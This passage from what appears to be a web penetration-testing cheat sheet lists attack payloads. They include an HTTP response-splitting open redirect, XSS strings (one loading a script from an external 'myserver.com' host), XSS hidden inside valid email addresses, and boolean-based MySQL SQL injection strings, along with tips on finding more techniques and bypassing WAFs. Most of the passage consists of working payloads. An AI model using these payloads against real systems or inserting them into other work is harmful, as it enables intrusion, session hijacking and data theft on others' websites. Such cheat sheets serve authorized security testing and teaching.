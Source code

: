 Open redirect:

```fundamental
somesite.com/home.php?marketing=winter%0D%0ALocation:%20https%3A%2F%2Fgithub.com
```

Session fixation and open redirection are one of many techniques used in combination with HTTP response splitting. Search the Internet for more techniques.

### Cross-Site Scripting (XSS)

Simple cross-site scripting (XSS) payloads:

```html
<script>alert(1)</script>

<script src="https://myserver.com/xss.js"></script>

<img src="https://github.com/favicon.ico" onload="alert(1)">
```

Hosting JavaScript on [Pastebin](https://pastebin.com) won't work because Pastebin always returns `text/plain` content type.

Find out more about reflected and stored cross-site scripting (XSS) attacks, as well as cross-site request forgery (XSRF/CSRF) attacks in my project at [ivan-sincek/xss-catcher](https://github.com/ivan-sincek/xss-catcher).

Valid RFC emails with embedded XSS:

```html
user+(<script>alert(1)</script>)@somedomain.com

user@somedomain(<script>alert(1)</script>).com

"<script>alert(1)</script>"@somedomain.com
```

### SQL Injection

**The following payloads were tested on MySQL database. Note that MySQL requires a whitespace character between the comment symbol and the next character.**

If you need to URL encode the whitespace character, use `%20` or `+` instead.

Try to produce database errors by injecting a single-quote, back-slash, double-hyphen, forward-slash, or period.

**Always make sure to properly close the surrounding code.**

Read this OWASP [article](https://owasp.org/www-community/attacks/SQL_Injection_Bypassing_WAF) to learn how to bypass WAF.

---

Boolean-based SQLi:

```fundamental
' OR 1=1-- 

' OR 1=2-- 
```

---